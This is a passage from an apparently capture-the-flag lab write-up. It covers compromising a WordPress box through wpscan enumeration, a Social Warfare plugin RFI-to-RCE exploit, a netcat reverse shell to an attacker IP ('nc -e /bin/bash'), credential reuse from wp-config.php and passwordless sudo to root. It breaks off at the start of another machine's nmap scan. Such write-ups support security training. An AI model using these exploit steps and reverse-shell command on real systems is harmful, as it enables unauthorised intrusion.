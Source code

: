 The folders indicates that an instance of wordpress is running on the web server. Running wpscan on the webserver using the docker image by `docker run -it --rm wpscanteam/wpscan --url http://192.168.80.123/wordpress/` gives the following info &rarr;

- Directory listing enabled at `/wordpress/wp-content/uploads/`
- WP-Cron enabled at `/wordpress/wp-cron.php`
- Wordpress version 5.5 using generator tag at `/wordpress/index.php/feed/`
- Wordpress theme version 1.5 (latest is 1.8)
- User `admin` identified at `/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1`
- Outdated plugin Social Warfare 3.5.2 (latest is 4.3) identified at `/wordpress/wp-content/plugins/social-warfare/readme.txt`

### Exploitation

#### RFI and RCE

Using searchsploit to search for social warfare gives the result as an RCE for versions < 3.5.3. Looking at the exploit, it needs a payload url to know the payload (an RFI). This will be included in `/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=<RFI_URL>`.

#### Reverse shell

Visiting this page would give the result of the command in the payload url. The payload must be of the form &rarr;

`<pre>system('whoami')</pre>`. Checking the existence of netcat and bash, a new payload can be used for a reverse shell &rarr; `nc -e /bin/bash 192.168.49.80 3002`. This grants the user flag.

### Privilege Escalation

#### User

The users discovered from the reverse shell as `www-data` are `root` and `takis`. Looking through the config of wordpress in `wp-config.php`, a DB_password is found. This could be used for the `takis` user on ssh. This works and a user shell is obtained.

#### Root

The `takis` user is able to run sudo without a password for all commands. Therefore `sudo su` grants the root shell as well as the root flag.

---

## Y0usef

### Enumeration

Machine IP &rarr; `192.168.244.138`

#### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.244.138`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`
